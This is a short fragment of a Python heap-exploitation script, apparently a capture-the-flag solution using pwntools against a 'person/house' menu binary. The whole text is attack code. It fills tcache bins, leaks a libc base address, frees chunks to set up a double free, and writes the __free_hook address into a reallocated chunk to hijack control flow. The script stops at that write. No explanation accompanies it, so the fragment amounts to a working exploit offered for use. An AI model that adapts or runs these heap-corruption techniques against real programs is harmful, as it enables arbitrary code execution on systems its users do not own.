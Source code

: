 ```python=


for i in range(7):
	create_person("IIII", 0x480, "DDDD")
	add(0, 0)


create_person("AAAA", 0x10, "AAAA")


view_person(0, 6)


remove(0, 5)

view_house(0)



for i in range(28):
	p.recvline()


dat = p.recvline().strip().split(" ", 8)	# libc leak here


libc.address = u64(dat[-1].ljust(8, "\x00")) - 0x1e4ca0


print("libc address", hex(libc.address))


for i in range(10):
	create_person("A", 0x60, "B")
	add(1, 1)


for i in range(7):
	remove(1, i)



view_house(1)


view_person(1, 9)
remove(1, 8)
remove(1, 7)

party(1)


print("malloc hook", hex(libc.sym["__malloc_hook"]))
print("free hook", hex(libc.sym["__free_hook"]))


for i in range(7):
	create_person("A", 0x60, "iiii")



create_person(p64(libc.sym["__free_hook"]), 0x60, p64(libc.sym["__free_hook"]))

```